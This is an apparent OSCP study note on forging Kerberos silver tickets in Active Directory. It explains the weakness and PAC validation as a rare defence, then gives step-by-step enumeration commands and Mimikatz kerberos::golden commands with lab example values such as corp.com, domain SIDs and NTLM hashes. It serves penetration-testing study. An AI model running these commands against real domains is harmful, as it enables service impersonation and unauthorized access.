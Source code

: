 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/13-active-directory-attacks/5-silver-tickets/","updated":"2024-01-05T11:36:53.663+01:00"}
---
```


-----------
- Ability to access SPN as anyone if owns hash of any account of that SPN
- Application checks user permissions in service ticket, but are often not verified by anything
- It trusts the integrity since the ticket is encrypted with the password hash
- Forging these tickets can be prevented with Privileged Account Certificate (PAC) validation. However, it is rare.
- Using an account password or NTLM hash a ticket can be created to access the application on all servers with the same SPN
- Information needed to forge a silver ticket:
	- SPN password hash
	- Domain SID
	- Target SPN
-------------------------
### Forging a silver ticket with Mimikatz:
1. Get NTLM hash in some way.
2. Enumerate domain SID:
```
whoami /user
```
- Result: corp\jeff ==S-1-5-21-1987370270-658905905-1781884369==-1105
3. Get SPN:
```
#Using setspn.exe:
setspn -L <user>

#Using PowerView:
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
4. Craft ticket:
```
#Run mimikatz:
.\mimikatz.exe

#Engage debug mode:
privilege::debug

#Craft ticket:
kerberos::golden /sid:<sid> /domain:<domain> /ptt /target:<hostname> /service:<service> /rc4:<ntlm> /user:<targetuser>

#Example:
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
5. Confirm ticket is loaded in to memory in Powershell:
```
klist
```

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:08d7a47a6f9f66b97b1bae4178747494 /user:iis_service
